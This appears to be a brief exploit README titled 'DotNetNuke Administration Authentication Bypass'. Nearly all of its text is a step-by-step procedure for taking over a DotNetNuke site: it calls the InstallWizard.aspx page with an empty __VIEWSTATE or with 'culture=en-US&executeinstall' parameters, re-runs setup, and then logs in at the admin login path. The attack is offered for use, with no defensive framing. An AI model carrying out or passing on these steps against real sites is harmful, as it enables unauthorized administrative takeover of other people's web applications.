 # Exploit Title: DotNetNuke Administration Authentication Bypass

Step 1: /Install/InstallWizard.aspx?__VIEWSTATE=

Step 2: Fill all infor

Step 3: CLick continue if it don't work, just add &culture=en-US&executeinstall

or you get any error ex: 500,... just removing __VIEWSTATE=

Install/InstallWizard.aspx?culture=en-US&executeinstall

Step 4: Login /Home/tabid/36/ctl/Login/Default.aspx

![454444](https://github.com/Kro0oz/-DotNetNuke-Administration-Authentication-Bypass/assets/72355033/5d5c8f9c-0833-4e18-b7be-365643379080)
